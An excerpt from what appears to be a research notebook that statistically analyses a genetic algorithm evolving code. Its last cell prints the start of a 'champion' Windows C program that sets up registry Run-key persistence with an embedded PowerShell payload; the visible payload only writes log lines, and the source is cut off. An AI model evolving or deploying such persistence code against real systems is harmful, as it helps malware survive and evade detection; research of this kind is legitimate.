





SUMMARY TABLE
                         mean_diff                         effect_size  \
                              mean     std     min     max        mean   
phase                                                                    
Full Loop                  -0.0010  0.0095 -0.0150  0.0078      0.0007   
Mutation Operation         -0.0769  0.0273 -0.1194 -0.0524     -0.6623   
Repair Mutants Operation    0.0718  0.0232  0.0486  0.1036      0.6193   
Repair Operation            0.0041  0.0055  0.0007  0.0135      0.0400   

                                                 significant       
                             std     min     max         sum mean  
phase                                                              
Full Loop                 0.0756 -0.1028  0.0851           0  0.0  
Mutation Operation        0.1480 -0.8853 -0.5378           4  0.8  
Repair Mutants Operation  0.1278  0.4984  0.7705           4  0.8  
Repair Operation          0.0599  0.0054  0.1444         

In [6]:
from scipy import stats
import pandas as pd

def cohen_d(group1, group2):
    """Calculate Cohen's d effect size"""
    n1, n2 = len(group1), len(group2)
    var1, var2 = np.var(group1, ddof=1), np.var(group2, ddof=1)
    pooled_std = np.sqrt(((n1-1)*var1 + (n2-1)*var2) / (n1+n2-2))
    return (np.mean(group1) - np.mean(group2)) / pooled_std if pooled_std > 0 else 0

def analyze_phase_transition(before, after, phase_name, gen_idx):
    """Analyze statistical difference between two phases"""
    before_scores = np.array([g.get_candidate().get_fitness() for g in before])
    after_scores = np.array([g.get_candidate().get_fitness() for g in after])
    
    # Descriptive statistics
    before_mean, before_std = np.mean(before_scores), np.std(before_scores)
    after_mean, after_std = np.mean(after_scores), np.std(after_scores)
    mean_diff = after_mean - before_mean
    pct_change = (mean_diff / before_mean * 100) if before_mean != 0 else 0
    
    # Normality tests
    _, before_p_norm = stats.shapiro(before_scores) if len(before_scores) <= 5000 else (None, 0.05)
    _, after_p_norm = stats.shapiro(after_scores) if len(after_scores) <= 5000 else (None, 0.05)
    
    # Choose appropriate test
    if before_p_norm > 0.05 and after_p_norm > 0.05:
        # Both normal - use t-test
        t_stat, p_value = stats.ttest_ind(after_scores, before_scores)
        test_used = "Independent t-test"
    else:
        # Non-normal - use Mann-Whitney U
        u_stat, p_value = stats.mannwhitneyu(after_scores, before_scores, alternative='two-sided')
        test_used = "Mann-Whitney U"
    
    # Effect size
    effect_size = cohen_d(after_scores, before_scores)
    
    # Effect size interpretation
    if abs(effect_size) < 0.2:
        effect_interp = "negligible"
    elif abs(effect_size) < 0.5:
        effect_interp = "small"
    elif abs(effect_size) < 0.8:
        effect_interp = "medium"
    else:
        effect_interp = "large"
    
    return {
        'generation': gen_idx + 1,
        'phase': phase_name,
        'before_mean': before_mean,
        'before_std': before_std,
        'after_mean': after_mean,
        'after_std': after_std,
        'mean_diff': mean_diff,
        'pct_change': pct_change,
        'p_value': p_value,
        'significant': p_value < 0.05,
        'effect_size': effect_size,
        'effect_interp': effect_interp,
        'test_used': test_used,
        'n_before': len(before_scores),
        'n_after': len(after_scores)
    }

# Analyze each generation
results = []

for gen_idx, generation in enumerate(checkpoint):
    population = generation["population"]
    repaired_population = generation["repaired_population"]
    mutated_population = generation["mutated_population"]
    repaired_mutants = generation["repaired_mutants"]
    
    # 1. Repair operation impact (population -> repaired_population)
    results.append(analyze_phase_transition(
        population, repaired_population, 
        "Repair Operation", gen_idx
    ))
    
    # 2. Mutation operation impact (repaired_population -> mutated_population)
    results.append(analyze_phase_transition(
        repaired_population, mutated_population,
        "Mutation Operation", gen_idx
    ))
    
    # 3. Repair mutant operation impact (mutated_population -> repaired_mutants)
    results.append(analyze_phase_transition(
        mutated_population, repaired_mutants,
        "Repair Mutants Operation", gen_idx
    ))
    
    # 4. Full loop impact (population -> repaired_mutants)
    results.append(analyze_phase_transition(
        population, repaired_mutants,
        "Full Loop", gen_idx
    ))

# Convert to DataFrame for easier analysis
df_results = pd.DataFrame(results)

# Display per-generation results
print("="*100)
print("PER-GENERATION STATISTICAL ANALYSIS")
print("="*100)

for gen_idx in range(len(checkpoint)):
    gen_data = df_results[df_results['generation'] == gen_idx + 1]
    print(f"\n{'='*100}")
    print(f"GENERATION {gen_idx + 1}")
    print('='*100)
    
    for _, row in gen_data.iterrows():
        print(f"\n{row['phase']}:")
        print(f"  Before: μ={row['before_mean']:.4f}, σ={row['before_std']:.4f}, n={row['n_before']}")
        print(f"  After:  μ={row['after_mean']:.4f}, σ={row['after_std']:.4f}, n={row['n_after']}")
        print(f"  Change: Δμ={row['mean_diff']:+.4f} ({row['pct_change']:+.2f}%)")
        print(f"  Test: {row['test_used']}, p={row['p_value']:.4f} {'***' if row['p_value'] < 0.001 else '**' if row['p_value'] < 0.01 else '*' if row['p_value'] < 0.05 else 'ns'}")
        print(f"  Effect Size: Cohen's d={row['effect_size']:.4f} ({row['effect_interp']})")
        print(f"  Significant: {'YES' if row['significant'] else 'NO'}")

# Aggregate analysis across all generations
print(f"\n\n{'='*100}")
print("AGGREGATE ANALYSIS ACROSS ALL GENERATIONS")
print('='*100)

for phase in ["Repair Operation", "Mutation Operation", "Repair Mutants Operation", "Full Loop"]:
    phase_data = df_results[df_results['phase'] == phase]
    
    print(f"\n{phase}:")
    print(f"  Average Mean Change: {phase_data['mean_diff'].mean():+.4f} (±{phase_data['mean_diff'].std():.4f})")
    print(f"  Average % Change: {phase_data['pct_change'].mean():+.2f}% (±{phase_data['pct_change'].std():.2f}%)")
    print(f"  Average Effect Size: {phase_data['effect_size'].mean():.4f} (±{phase_data['effect_size'].std():.4f})")
    print(f"  Significant in {phase_data['significant'].sum()}/{len(phase_data)} generations")
    print(f"  Consistency: {phase_data['significant'].mean()*100:.1f}% of generations show significant effect")
    
    # Test if effect sizes are consistently different from zero
    _, p_effect = stats.ttest_1samp(phase_data['effect_size'], 0)
    print(f"  Meta-analysis: Effect size significantly different from 0? p={p_effect:.4f} {'YES' if p_effect < 0.05 else 'NO'}")

# Visualize results
fig, axes = plt.subplots(2, 2, figsize=(16, 12))

# 1. Mean change by phase
phases = ["Repair Operation", "Mutation Operation", "Repair Mutants Operation", "Full Loop"]
colors = ['#1f77b4', '#ff7f0e', '#2ca02c', '#d62728']

for idx, phase in enumerate(phases):
    ax = axes[idx // 2, idx % 2]
    phase_data = df_results[df_results['phase'] == phase].sort_values('generation')
    
    x = phase_data['generation']
    y = phase_data['mean_diff']
    
    ax.bar(x, y, color=colors[idx], alpha=0.7, edgecolor='black')
    ax.axhline(y=0, color='black', linestyle='--', linewidth=1)
    ax.set_xlabel('Generation')
    ax.set_ylabel('Mean Fitness Change (Δμ)')
    ax.set_title(f'{phase}\nAvg Δμ={phase_data["mean_diff"].mean():+.4f}, Avg d={phase_data["effect_size"].mean():.3f}')
    ax.grid(True, alpha=0.3)
    
    # Add significance markers
    for i, (gen, diff, sig) in enumerate(zip(x, y, phase_data['significant'])):
        if sig:
            ax.text(gen, diff, '*', ha='center', va='bottom' if diff > 0 else 'top', 
                   fontsize=16, fontweight='bold', color='red')

plt.tight_layout()
plt.show()

# Effect size comparison across phases
fig, ax = plt.subplots(figsize=(12, 6))

positions = []
data_to_plot = []
labels = []

for idx, phase in enumerate(phases):
    phase_data = df_results[df_results['phase'] == phase]['effect_size'].values
    data_to_plot.append(phase_data)
    positions.append(idx + 1)
    labels.append(phase.replace(' Operation', ''))

bp = ax.boxplot(data_to_plot, positions=positions, tick_labels=labels, patch_artist=True,
                showmeans=True, meanline=True)

for patch, color in zip(bp['boxes'], colors):
    patch.set_facecolor(color)
    patch.set_alpha(0.7)

ax.axhline(y=0, color='black', linestyle='--', linewidth=1, alpha=0.5)
ax.axhline(y=0.2, color='gray', linestyle=':', linewidth=1, alpha=0.3, label='Small effect')
ax.axhline(y=0.5, color='gray', linestyle=':', linewidth=1, alpha=0.3, label='Medium effect')
ax.axhline(y=0.8, color='gray', linestyle=':', linewidth=1, alpha=0.3, label='Large effect')
ax.axhline(y=-0.2, color='gray', linestyle=':', linewidth=1, alpha=0.3)
ax.axhline(y=-0.5, color='gray', linestyle=':', linewidth=1, alpha=0.3)
ax.axhline(y=-0.8, color='gray', linestyle=':', linewidth=1, alpha=0.3)

ax.set_ylabel("Cohen's d (Effect Size)")
ax.set_title("Effect Size Distribution Across Generations by Phase")
ax.grid(True, alpha=0.3, axis='y')
ax.legend()

plt.tight_layout()
plt.show()

# Summary table
print(f"\n\n{'='*100}")
print("SUMMARY TABLE")
print('='*100)
print(df_results.groupby('phase').agg({
    'mean_diff': ['mean', 'std', 'min', 'max'],
    'effect_size': ['mean', 'std', 'min', 'max'],
    'significant': ['sum', 'mean']
}).round(4))


### Print the champion's code

In [7]:
# get highest fitness individual
import base64
champ_pop = checkpoint[-1]["repaired_mutants"]
champ_fitness = [g.get_candidate().get_fitness() for g in champ_pop]
champ_idx = np.argmax(champ_fitness)
champ_individual = champ_pop[champ_idx]

print(f"Highest fitness individual in the last generation: {champ_individual.get_candidate()}")
print(f"Fitness: {champ_individual.get_candidate().get_fitness()}")

# print the code of the champion
print("Code of the champion:")
print()
decoded_code = base64.b64decode(champ_individual.get_candidate().code).decode("utf-8")
print(decoded_code)

Highest fitness individual in the last generation: Candidate ID: 7b5f921c10690a2f62193b3c492803e8e5dae31728c02b313e96ac17d20f37b4, Classification: com, Status: 3, Fitness: 6.172e-01, F1: 1.000e+00, F2: 6.667e-01, F3: 5.931e-01, Analysis ID: 18400, Error: N/A
Fitness: 0.6171880705016
Code of the champion:

#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define TASK_NAME L"GIMC_Registry_BSI"
#define LOG_FILE L"C:\\Users\\Public\\gimc_test.log"
#define REGISTRY_PATH L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"

// PowerShell payload that creates and updates log file
const wchar_t* POWERSHELL_PAYLOAD = 
    L"$logFile = 'C:\\\\Users\\\\Public\\\\gimc_test.log';\n"
    L"for ($i = 1; $i -le 3; $i++) {\n"
    L"  $timestamp = Get-Date -Format 'yyyy-MM-dd HH:mm:ss';\n"
    L"  Add-Content -Path $logFile -Value \"[$timestamp] Registry persistence execution $i\";\n"
    L"  Start-Sleep -Seconds 3;\n"
    L"}";

FILE* PAYLOAD_BATCH = NULL;

void print_ba